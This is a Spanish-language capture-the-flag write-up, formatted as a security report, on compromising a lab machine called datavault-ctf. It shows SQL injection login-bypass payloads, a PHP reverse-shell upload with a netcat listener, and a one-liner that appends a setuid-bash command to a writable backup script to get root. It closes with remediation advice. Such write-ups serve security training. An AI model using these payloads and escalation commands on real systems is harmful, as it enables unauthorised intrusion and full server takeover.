---

---
---
autor: zhuit8
tipo: writeup
plataforma: whoami-labs
maquina: datavault-ctf
ip: 172.17.0.2
dificultad: Fácil
estado: finalizada

---
# Informe de Seguridad:
# datavault-ctf

## 1. Resumen Ejecutivo
**Puntuación de Riesgo:** Crítico

**Descripción del Impacto:**  
Se ha logrado el compromiso total del servidor mediante una cadena de explotación que inició con una vulnerabilidad de **Inyección SQL (SQLi)** en el portal de autenticación. Al evadir los mecanismos de acceso con el payload `' or 1=1 --+`, se obtuvo privilegios de administrador en la aplicación web, lo que permitió el abuso de funcionalidades de carga de archivos para desplegar una **Reverse Shell** en PHP.

El impacto es crítico debido a que el atacante no solo consiguió acceso inicial como el usuario `www-data`, sino que, mediante una **escalada de privilegios local**, logró comprometer una cuenta del sistema (`dbbackup`) y manipular scripts de mantenimiento con permisos insuficientes (`sync.sh`). Esto permitió la ejecución arbitraria de comandos para elevar privilegios a **root**, obteniendo control absoluto sobre el sistema, acceso total a las bases de datos y la exfiltración de la flag confidencial.

## 2. Resumen Técnico (Matriz de Hallazgos)
| ID  | Vulnerabilidad | Severidad | Estado    |
| --- | -------------- | --------- | --------- |
| 01  | Inyección SQL  | Crítica   | Explotado |
| 02  | Revershell     | Alta      | Explotado |
|     |                |           |           |

---
## 3. Fase de Reconocimiento
### Enumeración de Puertos (Nmap)

```bash
sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvvv -n -Pn 172.17.0.2
```

- **Puertos abiertos:** 22, 80.
- **Evidencias:** > [!info] Resultado Nmap > 



### Enumeración Web

```bash
dirsearch -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt -e all
```

- **Tecnologías:** [[Apache]], [[PHP]].



- **Directorias hallados:** `/admin`, `/uplodas`.



---
## 4. Análisis y Explotación

Se verifican los directorios hallados:


### Vector de entrada: [[Authentication Based Payloads]]
Introducir una comilla simple o paréntesis en un input y ver si da un error de backend o sintaxis SQL. Si nos devuelve un error esa web es vulnerable a SQL Inyection.

```sql
admin') or ('1'='1'--
```



- **Paylod utilizado:** [[../../../03_Payloads/SQL Injection en Login|SQL Injection en Login]]
```sql
' or 1=1 --+
```


### Post-Explotación

- Se observa la posibilidad de subir un archivo malicioso para obtener una Reverse Shell
- Consultamos la IP de nuestra máquina para la generación del archivo con el comando: 
```bash
ifconfig
```



- Se configura un listener:
```bash
 nc -nlvp 4444
```

- Se sube el archivo y se obtiene la Reverse Shell


- **usuario obtenido:** `www-data` 
- Se procede a mejorar shell



- **Escalada de privilegios:** - Se utiliza el siguiente comando para detectas un binario SUID mal configurado.

```bash
find / -user root -perm /4000 2>/dev/null
```



- Se buscan otras vías y se encuentra un archivo que contiene credenciales



- El usuario dbbackup pertenece al grupo backupgroup


- Se obtiene usuario dbbackup


```bash
dbbackup@datavault-ctf:/$ id
uid=1000(dbbackup) gid=1000(dbbackup) groups=1000(dbbackup),1001(backupgroup)

```

- Se comprueba si el archivo sync.sh es editable



- No es posible editarlo



- Sin embargo permite editarlo  mediante comando

```bash
 echo "cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash" >> /opt/backup/sync.sh
```


### Captura de Flag

`FLAG{MySQL_UDF_Exploitation_Master_2024}
`


---
## 5. Recomendaciones y Conclusiones
### Remediación Técnica
1. **Saneamiento de Entradas y Consultas Preparadas:** Implementar el uso de **sentencias preparadas (Prepared Statements)** con parámetros vinculados en todas las consultas a la base de datos para neutralizar ataques de Inyección SQL.
2. **Restricción de Carga de Archivos:** Aplicar una política estricta de validación para la subida de archivos, limitando las extensiones permitidas (evitando `.php`, `.phtml`, etc.) y almacenando los archivos en directorios sin permisos de ejecución.
3. **Principio de Menor Privilegio (Hardening):** Revisar y restringir los permisos de escritura en scripts críticos del sistema (como `sync.sh`). Asimismo, auditar los binarios con bit **SUID** y las credenciales almacenadas en texto plano en archivos de configuración.
### Conclusión Final
La seguridad de la infraestructura se encuentra en un estado **crítico**. La vulnerabilidad inicial en el login permitió un acceso que, escalado mediante la carga de archivos maliciosos y la explotación de configuraciones permisivas en scripts internos, resultó en el control total del servidor (root). Es imperativo securizar la capa de aplicación y revisar la gestión de permisos en el sistema operativo para evitar el movimiento lateral y la elevación de privilegios.